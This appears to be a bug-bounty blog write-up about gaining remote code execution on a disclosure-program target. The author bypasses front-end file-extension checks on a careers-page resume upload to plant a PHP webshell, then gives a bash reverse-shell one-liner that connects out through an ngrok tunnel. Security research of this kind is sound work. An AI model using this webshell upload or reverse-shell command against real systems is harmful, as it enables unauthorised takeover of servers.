

# Remote Code Execution
Remote code execution (RCE) refers to the ability of a cyber attacker to access and make changes to a computer owned by another, without authority and regardless of where the computer is geographically located. RCE allows an attacker to take over a computer or a server by running arbitrary malicious software (malware).

Found a target using google dorks which having a responsible disclosure program. Let’s consider the target as abc.com the target website. During recon, I found that the target company owns 7 subdomains and each of them is integrated with the parent domain abc.com with some functionalities.

So I quickly started doing directory brute-forcing to figure out the directories and guess what the website is fully made up of PHP, so if I found a way to upload a php file I can get a reverse shell. The website having a career page which we can upload pdf file as a resume.

At the time of my recon, I found an uploads folder which contains all the uploaded documents of peoples who applied for jobs through this career page.

**Directory brute-forcing using dirsearch**

**Index of uploaded files**

So I quickly directed to the https://www.abc.com/careers.php careers page and checked the CV upload functionality but the application is validating the file extensions at the front end only.

**validating file extension at frontend**

So I quickly downloaded the PHP webshell and uploaded successfully

All required information are filled and click submit then intercepted the request and changed the file extension from pdf to PHP

**uploaded webshell**

Then I quickly directed to the uploaded shell file location to trigger the PHP web shell.

**webshell**

Finally, the webshell is working perfectly. To get a reverse shell we can upload the reverse shell instead of the webshell or we can simply use the below command on the web shell console to get access via port forwarding by using ngrok services.

### PHP webshell
[GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Getting Reverse Shell
- Enable port forwarding
- Listen to forwarded port using Netcat

**port forwarding setup using ngrok**

Now the port forwarding is completed we can get the shell by executing the following command in the webshell input field

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

**execute reverse connection via bash**

Now we got the reverse shell successfully.

Thank you for reading.

Follow me on Twitter : [thevillagehacker](https://twitter.com/thevillagehackr)